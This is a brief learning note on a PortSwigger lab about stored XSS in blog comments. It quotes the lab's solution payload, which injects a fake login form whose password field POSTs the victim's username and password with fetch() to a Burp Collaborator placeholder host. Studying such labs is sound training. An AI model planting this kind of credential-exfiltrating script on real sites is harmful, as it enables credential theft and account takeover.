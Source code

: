 # [Lab: Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

## Lab

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

## Analysis

I read the solutions. it's look like this:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

It will create a form in the comment section, who the hell in the world will enter their credentials in this?
